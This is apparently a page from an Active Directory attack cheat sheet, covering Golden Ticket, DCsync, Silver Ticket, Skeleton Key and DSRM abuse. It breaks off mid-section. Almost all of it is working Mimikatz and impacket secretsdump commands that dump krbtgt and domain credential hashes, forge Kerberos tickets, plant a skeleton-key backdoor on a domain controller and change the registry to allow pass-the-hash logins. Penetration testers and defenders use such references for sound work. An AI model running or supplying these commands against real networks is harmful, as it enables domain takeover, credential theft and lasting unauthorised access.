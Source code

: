 ### **Golden Ticket Attack**

```
#Execute mimikatz on DC as DA to grab krbtgt hash:
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName <DC'sName>

#On any machine:
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<DomainName> /sid:<Domain's SID> /krbtgt:
<HashOfkrbtgtAccount>   id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

### **DCsync Attack**

```
#DCsync using mimikatz (You need DA rights or DS-Replication-Get-Changes and DS-Replication-Get-Changes-All privileges):
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DomainName>\\<AnyDomainUser>"'#DCsync using secretsdump.py from impacket with NTLM authentication
secretsdump.py <Domain>/<Username>:<Password>@<DC'S IP or FQDN> -just-dc-ntlm

#DCsync using secretsdump.py from impacket with Kerberos Authentication
secretsdump.py -no-pass -k <Domain>/<Username>@<DC'S IP or FQDN> -just-dc-ntlm

Tip:
/ptt -> inject ticket on current running session
/ticket -> save the ticket on the system for later use
```

### **Silver Ticket Attack**

```
Invoke-Mimikatz -Command '"kerberos::golden /domain:<DomainName> /sid:<DomainSID> /target:<TheTargetMachine> /service:
<ServiceType> /rc4:<TheSPN's Account NTLM Hash> /user:<UserToImpersonate> /ptt"'
```

### **Skeleton Key Attack**

```
#Exploitation Command runned as DA:
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <DC's FQDN>

#Access using the password "mimikatz"
Enter-PSSession -ComputerName <AnyMachineYouLike> -Credential <Domain>\\Administrator
```

### **DSRM Abuse**

_Every DC has a local Administrator account, this accounts has the DSRM password which is a SafeBackupPassword. We can get this and then pth its NTLM hash to get local Administrator access to DC!_

```
#Dump DSRM password (needs DA privs):
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -ComputerName <DC's Name>

#This is a local account, so we can PTH and authenticate!
#BUT we need to alter the behaviour of the DSRM account before pth:
#Connect on DC:
Enter-PSSession -ComputerName <DC's Name>

#Alter the Logon behaviour on registry:
New-ItemProperty "HKLM:\\System\\CurrentControlSet\\Control\\Lsa\\" -Name "DsrmAdminLogonBehaviour" -Value 2 -PropertyType DWORD -Verbose

#If the property already exists:
```